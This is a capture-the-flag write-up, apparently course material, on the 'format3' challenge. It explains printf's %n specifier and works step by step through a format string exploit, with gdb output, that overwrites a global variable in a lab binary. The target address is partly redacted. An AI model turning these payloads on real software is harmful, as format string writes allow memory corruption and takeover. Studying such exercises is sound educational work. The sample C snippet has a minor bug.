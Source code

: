 ```yaml
---
title:  "format3 Writeup"
date:   2019-03-27 11:08:00
categories: writeup
layout: post
author: Thomas White
---
```



The basis for the `format` problems are exploiting one of the many variations of `printf` in C. At first glance, it seems odd that a function as simple `printf` would be vulnerable. It just puts characters in the terminal, right? To gain some more insight, let's look at the flags you can use construct a format string out of (table abridged from [wikipeida](https://en.wikipedia.org/wiki/Printf_format_string#Type_field)):

| Character | Description |
|-----------|-------------|
| ...       | ... |
| "d, i"    | int as a signed decimal number ...|
| u         | Print decimal unsigned int.|
| "f, F"    | double in normal (fixed-point) notation ...|
| "e, E"    | double value in standard form ...|
| "g, G"    | double in either normal or exponential notation ... |
| "x, X"    | unsigned int as a hexadecimal number ... |
| o         | unsigned int in octal.|
| s         | null-terminated string.|
| c         | char (character).|
| ...       | ... |
| "a, A"    | double in hexadecimal notation ...|
| **n**     | Print nothing, but **writes the number of characters successfully written so far into an integer pointer** ...|

That looks interesting! It seems `printf` is not only allowed to 'print' to the terminal, but can also 'print' to a memory address. A legitimate use of this could look something like:

```c
int character_limit = 30;
int characters_input = 0;
printf("You input: ");
printf("%s%n\n", user_input, &character_limit);
if(characters_input > character_limit){
    printf("Maximum characters allowed is %d\n", chacter_limit);
    exit(1);
}
```

With `%n` in mind, let's take a brief look at the (abbreviated) source code for `format3`:

```c
int target;


void printbuffer(char *string)
{
  printf(string);
}
 ...

void vuln()
{
 ...
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
    printf("you have modified the target correctly :)\n");
 ...
}
```

We see this time is that we are going to make `target = 0x01025544`. The first step to this is to find where our input is going to be relative to the `printf` call. We can do this by simply running the program.


```bash
python -c 'print "AABB"+" %x"*20' | ./format3

AABB f7f73e20 f7dd8fbb 0 f7f4b000 0 ffb49a68 8048527 ffb4981c 200 f7f4b5c0 f7f7080a f7f86000 f7d77dc8 f7f59580 42424141 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```

Notice that in the 15th `%x` we see the beginning of our input AABB as hex `42424141`. Now we know that we need 15 format string flags in order to read the first 4 bytes of our input.

Next we need to find the address of `target` to put in our exploit string. Load up the binary in gdb and run:

```gdb
(gdb) b main
Breakpoint 1 at 0x80485b2: file format3.c, line 35.
(gdb) r
Starting program: /home/vagrant/challenges/format3r/format3
Breakpoint 1, main (argc=0x1, argv=0xffffd5e4) at format3.c:35
35        vuln();
(gdb) info address target
Symbol "target" is static storage at address 0x804????.
```

**Instructor's Note: I've redacted the address partially (via the "????" string) so that the reader can't just copy the solution string at the bottom.**

As we can see, `target` is located at `0x804????`. So what part of memory is that? A quick look at `info proc map` tells us that this address does not lie in the stack, but the output isn't super helpful otherwise. To answer our question, we need to use another utility: `readelf`. A quick call to `readelf -S format3` will give us all of the sections in our ELF[^1] binary and a quick look will tell us that address `0x804????` falls into `.bss`. The `.bss` section is a location in memory that holds unitilized data, all of which will be initialized to zeros when the program starts execution. Ah, so we can conclude that our compiler decided that the `.bss` section was to the best place to put the unitialized global variable `target`. In the absence of ASLR, we also suspect that this address will remain the same both inside and outside of gdb.

[^1]: [ELF](/papers/elf.pdf) is the file format used by Linux executables.

If we pull this all together, our current exploit string looks like `python -c "print '????\x04\x08'+'%x'*15"` which would stop printing after it prints `804????`. We need to subtract 1 `%x` and replace it with a `%n` for the value of `target` to get changed, so let's see what happens when we run

```bash
python -c "print '????\x04\x08'+'%x'*14+'%n'" | ./format3

Hf7fe7e20f7e4cfbb0f7fbf0000ffb6a5b88048527ffb6a36c200f7fbf5c0f7fe480af7ffa000f7debdc8f7fcd580
target is 00000060 :(
```

Great! We are setting values! `target` is now equal to `0x60`. Now we just need to do the character math to make it `target` equal `0x01025544`.

First let's replace all the `%x` with `%c` to ensure that 1 character is printed out per format string flag. Let's leave the last `%x` to allow us to specify padding and get the exact value we want in `target`. `0x01025544` in decimal is `16930116`. Then we do some subtraction:`16930116 characters needed - 13 %c's - 4 (target address) = 16930099 additional characters to print`.

This yields a format string of `python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'"`. Let's run it and see what it 
does:

```bash
python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'" | ./format3

you have modified the target correctly :)
flag: hello world!
```

To avoid waiting you can do 
```bash
python -c "print ...." | ./format3 | grep -a flag
```
